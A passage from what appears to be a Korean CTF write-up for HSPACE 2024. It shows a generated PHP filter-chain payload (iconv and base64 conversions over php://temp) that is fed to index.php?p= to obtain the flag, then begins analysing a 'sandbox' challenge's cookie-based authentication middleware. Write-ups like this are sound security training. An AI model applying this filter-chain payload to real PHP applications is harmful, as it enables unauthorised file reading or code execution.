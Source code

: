 ```python
P1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp"

php_filter += '+' * (8096 - len(php_filter))

print(php_filter)
```      
    
출력된 결과를 `index.php?p=`에 넣어주면 아래와 같이 `FLAG`를 얻을 수 있다.     

<img src="/assets/images/ctf/2024/hspace/Multiline PHP challenge/2.JPG"  width="700px">    

### FLAG     
hspace{5525f4bd51f0c29ac4f7f762813af852}     
      
## sandbox     

전역 변수로 선언된 `var lastUid = 0` 변수는 유저가 한 명씩 생성될 때마다 값이 1씩 증가한다.   
                
`users.add({ username: "admin", password: hashPasswd(rand()), uid: lastUid++ })` 코드로 인해 새로운 유저가 부여받는 `lastUid` 은 1이상의 값을 갖는다.    
           
```javascript
app.use((req,res,next) => {
	req.userUid = -1
	req.userData = ""

	let data = req.cookies.data
	let uid = req.cookies.uid
	let passwd = req.cookies.passwd

	if(uid == undefined || passwd == undefined)
		return next()

	let found = false
	for(let e of users.entries())
		if(e[0].uid == uid && e[0].password == passwd)
			found = true

	if(found){
		req.userUid = uid
		req.userData = data
	}

	next()
```